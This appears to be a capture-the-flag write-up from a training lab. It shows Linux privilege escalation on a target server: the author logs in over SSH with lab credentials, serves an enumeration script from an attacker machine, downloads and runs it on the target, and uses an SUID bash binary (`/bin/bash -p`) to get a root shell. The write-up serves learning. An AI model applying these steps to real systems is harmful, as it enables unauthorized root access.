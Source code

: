 ssh to the server using `cmnatic:aoc2020`. I will use `suid3num.py` to enumerate suid. I start by checking if the target server have wget and python3 pre-installed. python3 is used when execute `suid3num.py` and wget is use for get `suid3num.py` from our kali
```console
-bash-4.4$ which python3
/usr/bin/python3
-bash-4.4$ which wget
/usr/bin/wget
```
now on kali, run python http server module
```console
$ python3 -m http.server --cgi 8888
```
on target server, use wget to download `suid3num.py`. and run it
```console
-bash-4.4$ python3 suid3num.py 
[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/bin/bash -~> https://gtfobins.github.io/gtfobins/bash/#suid
------------------------------


[$] Please try the command(s) below to exploit harmless SUID bin(s) found !!!
------------------------------
[~] /bin/bash -p
------------------------------
```
now run `/bin/bash -p` to gain root
```console
-bash-4.4$ /bin/bash -p
bash-4.4# whoami
root
```